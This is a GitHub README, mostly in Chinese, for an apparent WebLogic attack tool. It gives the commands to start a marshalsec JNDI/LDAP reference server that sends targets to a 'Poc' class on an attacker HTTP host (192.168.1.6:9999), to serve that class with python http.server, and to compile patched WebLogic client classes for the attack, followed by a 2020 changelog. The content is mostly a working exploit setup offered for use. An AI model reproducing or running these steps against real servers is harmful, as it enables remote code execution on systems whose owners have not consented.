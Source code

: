 # weblogic-tools
weblogic-tools

启动 JNDI 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.1.6:9999/#Poc 1099
```

启动 HTTP 服务

```
python -m http.server 9999
```

修改代码

```
javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/iiop/IORManager.java

javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/corba/idl/RemoteDelegateImpl.java
```
启动 com.bea.javascript.jar
```
python -m http.server 8080
```

## 更新日志

2020-04-04

- 取消入口为 ip + port 方式修改为 url 方式
- 修改部分实现
